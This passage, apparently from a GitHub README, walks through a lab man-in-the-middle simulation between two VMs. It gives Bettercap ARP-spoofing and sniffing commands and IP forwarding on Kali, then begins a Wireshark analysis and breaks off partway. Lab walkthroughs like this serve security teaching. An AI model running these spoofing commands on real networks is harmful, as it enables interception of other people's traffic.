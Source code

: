 
## 🚀 Step-by-Step MITM Attack Simulation
### ✅ Step 1: Check IP Addresses (on both VMs)
```bash
ip a
```
📸 Screenshot: 

<img width="657" alt="Screenshot 2025-05-26 at 10 37 13 PM" src="https://github.com/user-attachments/assets/f1723f20-2822-4c3b-82c7-ad7f909878a6" />
<img width="657" alt="Screenshot 2025-05-26 at 10 37 48 PM" src="https://github.com/user-attachments/assets/426d1557-dec6-4e2d-9616-cd7b545ff93d" />


📝 Confirm both machines are on the same subnet (e.g., 192.168.219.133/24)

### ✅ Step 2: Enable IP Forwarding on Kali
```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
### ✅ Step 3: Launch Bettercap on Kali
```bash
sudo bettercap -iface eth0
```
Use your network interface name (ip a to confirm — may be eth0 or ens33)
Inside Bettercap shell:
```bash
net.recon on
net.probe on
set arp.spoof.targets 192.168.219.133
set arp.spoof.internal true
arp.spoof on
net.sniff on
```
If Bettercap doesn't find the victim ip in the ARP Table, then do this in kali:
```bash
sudo arping -c 3 192.168.219.133
```
📸 Screenshot: 

<img width="657" alt="Screenshot 2025-05-26 at 10 58 07 PM" src="https://github.com/user-attachments/assets/de473561-c846-4deb-97fc-a63f094083ff" />

## 🧪 Packet Analysis using Wireshark
### ✅ Step 1: Start Wireshark (on Victim)
- Open Wireshark

- Select your active interface (eth0 or ens33)

- Start capturing

### ✅ Step 2: Apply Filters
ARP Filter
```wireshark
arp
```
🔍 Look for:
